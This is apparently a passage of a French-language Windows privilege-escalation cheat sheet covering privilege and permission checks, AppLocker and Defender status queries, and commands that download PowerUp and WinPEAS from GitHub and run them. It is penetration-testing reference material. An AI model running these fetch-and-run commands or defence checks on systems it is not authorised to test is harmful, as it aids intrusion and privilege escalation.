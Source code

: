 ### 10. **Sécurité et Audits**

**Droits d'accès utilisateur**

Vérifie les droits et permissions de l'utilisateur actuel et des groupes.

```cmd
whoami /priv   # Affiche les privilèges de l'utilisateur actuel
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"   # Utilise AccessChk pour vérifier les permissions
```

***

### 11. **AppLocker et autres politiques de sécurité**

**Statut d'AppLocker**

Vérifie si AppLocker est activé et répertorie les politiques.

```powershell
Get-AppLockerPolicy -Effective -XML   # Affiche la politique AppLocker effective
```

**Statut de Windows Defender**

Vérifie si Windows Defender est activé et ses paramètres.

```cmd
sc query windefend   # Vérifie le statut du service Windows Defender
```

***

### 12. **Scripts d'attaque et d'exploitation**

**Recherche d'exploits locaux connus**

Télécharger et exécuter des scripts d'exploitation locaux pour automatiser la collecte d'informations.

* **PowerUp** et **WinPEAS** sont des scripts populaires pour cette tâche.

```powershell
# PowerUp - Un script PowerShell pour identifier les faiblesses de configuration
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1"
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# WinPEAS - Un outil de script de recherche automatique de failles
Invoke-WebRequest -Uri "https://github.com/carlospolop/PEASS-ng/releases/download/20230827/winPEASx64.exe" -OutFile "winPEASx64.exe"
.\winPEASx64.exe
```

Ces commandes et outils aident à identifier les vecteurs d'attaque potentiels pour l'escalade de privilèges sur un système Windows en exploitant les configurations faibles, les permissions incorrectes, et d'autres vulnérabilités.
